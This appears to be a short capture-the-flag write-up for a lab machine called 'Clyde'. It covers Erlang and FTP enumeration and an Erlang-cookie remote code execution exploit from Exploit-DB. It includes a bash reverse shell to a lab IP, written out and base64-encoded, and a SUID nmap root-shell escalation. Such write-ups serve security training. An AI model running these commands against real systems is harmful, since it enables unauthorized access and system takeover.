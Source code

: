 # Clyde

### Enumeration

```
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
```

```
21/tcp    open   ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ...
| drwxr-xr-x    3 ftp      ftp          4096 May 08  2020 rabbitmq
| ...
```

FTP - Anonymous Access

.erlang.cookie is in rabbitmq directory.

.erlang.cookie - \[REDACTED]

### Initial Access

Erlang Cookie - Remote Code Execution

[https://www.exploit-db.com/exploits/49418](https://www.exploit-db.com/exploits/49418)

```
$ python3 49418
...
TARGET = "192.168.94.68"
PORT = 65000
COOKIE = [REDACTED]
CMD = "id"
...
```

```
/bin/bash -i >& /dev/tcp/192.168.49.94/80 0>&1 - Base64 encoded

#Send these commands one by one
CMD = "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuOTQvODAgMD4mMQ== | base64 -d > shell.sh"
CMD = "bash shell"
```

### PrivEsc

```
rabbitmq@clyde:/$ find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/nmap
...
```

[https://gtfobins.github.io/gtfobins/nmap/#shell](https://gtfobins.github.io/gtfobins/nmap/#shell)

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```
